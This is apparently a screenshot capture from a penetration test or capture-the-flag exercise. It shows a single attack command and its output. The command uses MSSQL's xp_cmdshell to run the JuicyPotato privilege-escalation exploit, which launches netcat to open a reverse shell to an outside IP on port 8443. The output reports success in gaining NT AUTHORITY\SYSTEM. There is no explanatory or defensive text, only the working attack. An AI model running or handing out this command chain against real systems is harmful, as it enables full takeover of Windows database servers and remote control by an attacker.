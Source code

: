 xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.15.211 8443 -e cmd.exe" -t *

output                                                       
----------------------------------------------------------   
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375         

......                                                       

[+] authresult 0                                             

{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM   

NULL                                                         

[+] CreateProcessWithTokenW OK                               

[+] calling 0x000000000088ce08                               

NULL    

